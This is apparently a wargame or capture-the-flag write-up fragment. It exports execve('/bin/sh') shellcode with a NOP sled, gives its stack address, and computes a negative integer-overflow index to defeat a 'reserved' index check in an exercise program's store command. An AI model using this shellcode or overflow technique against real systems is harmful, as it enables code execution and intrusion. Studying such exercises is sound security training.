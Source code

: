 ``` Shell
export SHELLCODE=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
```
Address of a shellcode : `0xffffd880`
4294957184

Complement's 2
-404
18446744073709551212
18446744073709551212 / 4 = 4611686018427387803

4611686018427387803
-4611686018427387803

4+6+1+1+6+8+6+0+1+8+4+2+7+3+8+7+8+0+3 =  83
8 + 3 = 11
1 + 1 = 2

```
Input command: store
 Number: 4294957184
 Index: -4611686018427387803
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 ```